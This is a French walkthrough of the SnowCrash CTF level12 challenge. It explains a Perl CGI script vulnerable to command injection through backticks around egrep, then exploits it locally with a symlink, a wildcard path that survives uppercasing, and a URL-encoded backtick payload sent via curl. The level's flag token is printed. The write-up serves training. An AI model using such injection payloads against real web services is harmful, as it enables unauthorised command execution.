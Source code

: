 ```hell
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
level12@SnowCrash:~$ ./level12.pl
Content-type: text/html

..level12@SnowCrash:~$ cat level12.pl 
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```
Il s'agit d'un script Perl qui utilise le module CGI pour recevoir des paramètres d'un formulaire web et affiche un point ou deux points en fonction du résultat d'un appel de fonction.

Le script définit deux sous-routines :

    "t" prend deux paramètres ($_[0] et $_[1]) et effectue un traitement de texte sur $_[0] (en le convertissant en majuscules et en supprimant les espaces blancs finaux). Il recherche ensuite des lignes dans le fichier /tmp/xd qui commencent par $_[0] modifié et ont le motif $_[1] quelque part dans le reste de la ligne. Si une telle ligne est trouvée, la fonction renvoie 1 ; sinon, elle renvoie 0.

    "n" prend un paramètre ($_[0]) et affiche soit un point (.) soit deux points (..) selon que $_[0] est égal à 1 ou non.

La partie principale du script appelle "n" avec le résultat de l'appel de "t" avec les valeurs des paramètres "x" et "y" obtenues à partir du formulaire web.

Notez que ce script est vulnérable aux attaques d'injection de commandes, car il passe l'entrée utilisateur non sécurisée directement à la commande "egrep".

On essaie de voir s'il y a une connexion possible:
```shell
level12@SnowCrash:~$ curl -I 127.0.0.1:4646
HTTP/1.1 200 OK
Date: Tue, 21 Mar 2023 03:39:36 GMT
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2
Content-Type: text/html
```
OK pour utiliser la faille et injecter une commande dans `egrep "^$xx" /tmp/xd 2>&1`, on va utiliser un x= dans l'url :

x=getflag, mais on sait que avant il x sera mis en majuscule. Il faut donc qu'on puisse appeler GETFLAG.

pour cela on va utiliser utiliser le wildcard:

En effet quand il y a un unique fichier on peut l'appeler par /*. Donc:
```shell
level12@SnowCrash:~$ ln -sf /bin/getflag /tmp/GETFLAG
level12@SnowCrash:~$ /*/GETFLAG
Check flag.Here is your token : 
Nope there is no token here for you sorry. Try again :)
```
Ok maintenant si je lance avec x=`/*/GETFLAG` il faut que je mette en code url:
[url encoder](https://www.urlencoder.org/)
ce qui donne : %2F%2A%2FGETFLAG
```shell
level12@SnowCrash:~$ curl '127.0.0.1:4646?x=`%2F%2A%2FGETFLAG`'
..level12@SnowCrash:
```
Mais je n'ai aucune sortie
une solution pas tres jolie mais j'ai pas trouvé mieux c'est de sortir sur l'erreur d'appache:
donc x=`/*/GETFLAG>&2 qu'on encode : %2F%2A%2FGETFLAG%3E%262
```shell
level12@SnowCrash:~$ curl '127.0.0.1:4646?x=`%2F%2A%2FGETFLAG%3E%262`'
..level12@SnowCrash:~tail /var/log/apache2/error.log`'
[...]
[Tue Mar 21 05:24:13 2023] [error] [client 127.0.0.1] Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```